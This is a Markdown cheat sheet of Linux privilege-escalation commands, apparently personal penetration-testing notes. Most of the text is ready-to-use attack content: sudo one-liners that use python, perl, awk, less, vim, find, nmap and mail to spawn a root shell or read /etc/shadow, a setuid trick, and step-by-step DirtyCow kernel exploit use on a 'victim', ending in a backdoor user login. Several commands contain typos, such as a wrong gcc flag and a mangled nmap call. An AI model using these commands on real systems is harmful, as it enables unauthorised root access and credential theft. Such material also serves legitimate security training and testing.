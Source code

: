 # Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

```
➤ Python
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])

➤ Perl
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’

➤ CP + Chmod
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit

➤ Awk
awk 'BEGIN {system("/bin/bash")}'

➤ Less
• Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
• Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash

➤ Vim
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash

➤ Find
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;

➤ Bash
sudo -u root /bin/bash

➤ Nmap
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh

➤ Mail
sudo mail --exec='!/bin/bash'
```

## Crontab - Privesc

## DirtyCow

Exploit: Linux Kernel 2.6.22 < 3.9

• https://dirtycow.ninja/

• https://github.com/FireFart/dirtycow/blob/master/dirty.c


```
➤ 1. Upload the exploit on the victim

➤ 2. Compile the exploit
gcc -pthread dirty.c -O dirty -lcrypt
chmod +x dirty

➤ 3. exploit it
./dirty
Please enter the new password: lexiswashere

➤ 4. Privesc
su firefart
Password: lexiswashere

Note: if the 'su : must be run from a terminal' error appear, upgrade tty 
python -c 'import pty; pty.spawn("/bin/sh")'
```
